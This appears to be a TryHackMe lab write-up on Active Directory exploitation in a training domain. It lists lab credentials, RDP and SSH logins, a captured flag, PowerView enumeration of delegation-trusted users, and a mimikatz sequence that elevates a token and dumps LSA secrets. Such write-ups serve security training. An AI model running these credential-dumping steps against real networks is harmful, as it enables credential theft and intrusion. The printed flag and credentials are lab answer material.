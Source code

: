 ```shell
export t2user=t2_henry.harvey
export t2pass=StrongPass123
```

> GenericWrite

![GenericeWrite](images/Pasted%20image%2020240616124809.png)

```shell
xfreerdp /v:thmwrk1.za.tryhackme.loc /u:$t2user /p:$t2pass
```

```powershell
cd C:\Users\Administrator\Desktop
type .\flag1.txt
```

> THM{Permission.Delegation.FTW!}

## Task 3

```shell
export AD=za.tryhackme.loc
export t2user=t2_henry.harvey
export t2pass=StrongPass123
```

`ssh $AD\\$t2user@thmwrk1.$AD`

```powershell
Import-Module C:\Tools\PowerView.ps1
Get-NetUser -TrustedToAuth
C:\Tools\mimikatz_trunk\x64\mimikatz.exe
```

```plain
# mimikatz
# --------

privilege::debug
token::elevate
lsadump::secrets
token::revert
```

